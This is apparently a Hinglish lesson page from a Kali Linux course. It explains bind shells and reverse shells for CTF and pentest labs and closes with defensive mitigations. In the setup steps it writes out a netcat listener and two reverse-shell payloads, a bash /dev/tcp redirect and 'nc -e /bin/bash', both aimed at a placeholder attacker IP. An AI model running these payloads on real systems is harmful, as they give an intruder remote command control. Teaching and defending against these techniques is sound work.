

← [[Course on Kali Linux|Go Back to Course Hub]]

# 🐚 Topic 16: Reverse Shells (Connect-Back Shells)

Bhai, penetration testing ya CTF labs (jaise TryHackMe) solve karte waqt, aapka main target hota hai target machine ka command line control gain karna. Is process ko hum cyber security me **"Gaining a Shell"** kehte hain, aur iske liye sabse jyada **Reverse Shell** technique ka use kiya jata hai.

---

### 🐚 Shell Kya Hai?
Shell ek text-based program interface hai (jaise `/bin/bash` in Linux ya `cmd.exe` in Windows) jo operating system se dynamic processes aur terminal operations handle karne ki capabilities deta hai.

---

### 🆚 Bind Shell vs. Reverse Shell (Routing direction 🔄)

Attacker aur victim ke beech connection kis direction se ban raha hai, iske base par ye do classification hote hain:



#### 1. Bind Shell (Direct Connect):
* **Mechanism:** Target machine par payload execute hone par ek specific network port (e.g., 4444) open ho jata hai aur local shell us port se bind ho jata hai. Attacker is open IP:Port par connect hokar control le leta hai.
* **Limitations:** Target network ka external firewall aur network routing translation (NAT) incoming unlisted connection requests ko seedhe drop kar dete hain, jis wajah se bind shell fail ho jata hai.

#### 2. Reverse Shell (Connect-Back):
* **Mechanism:** Attacker apne local system par listener open karke internet connections ka wait karta hai. Target system par jab payload execute hota hai, toh victim machine automatic bahar connection call trigger karti hai attacker ke IP par.
* **Advantages:** Firewalls standard egress traffic (outbound requests) ko generic block nahi karte, isliye reverse shells safely firewalls bypass kar jate hain.

---

### 🛠️ How to Establish a Reverse Shell (The 2 Steps)

Reverse shell establish karne ke liye do simple stages follow kiye jate hain:

#### 💻 Step 1: Attacker sets up a Listener (Listening Mode)
Attacker target scan se pehle apne terminal me connection catch karne ke liye **Netcat (`nc`)** tool open karta hai:
```bash
nc -lvnp 4444
```
* **Flags Explanation:**
  * `-l`: Listen mode activation.
  * `-v`: Verbose info output parameters.
  * `-n`: Numeric IP bindings only (no slow DNS lookups).
  * `-p 4444`: Port number jahan connections catch karne hain.

#### 💻 Step 2: Victim executes the Payload (Connection script)
Jab target vulnerability (jaise SQLi or RCE) detect hoti hai, tab victim machine par ek connection command run ki jati hai jo local terminal session ko network adapter port par push kar deti hai:

* **Classic Linux Bash Payload:**
```bash
bash -i >& /dev/tcp/<Attacker_IP>/4444 0>&1
```
* **Netcat Payload (Standard):**
```bash
nc <Attacker_IP> 4444 -e /bin/bash
```

Once executed, attacker ke terminal screen par listener alert successfully change ho jata hai active target CLI console session me.

---

### 🛡️ Defensive Mitigations (Reverse Shells ko Kaise Rokein?)

1. **Strict Egress Filtering (Outbound Firewall Control):**
   * Server environment configurations par strict limits lagayein ki database/web servers sirf approved outbound ports (jaise ports 80/443 dynamic updates) par hi connect kar sakein. Kisi unknown port (like 4444) par network connection filter dynamic block hona chahiye.
2. **EDR & Process Monitoring:**
   * Alert trigger monitoring systems setup karein jab system level web engines (jaise `www-data` or `apache`) local system process commands trigger karke child shells (sh, bash, cmd) open kar rahe hon.

---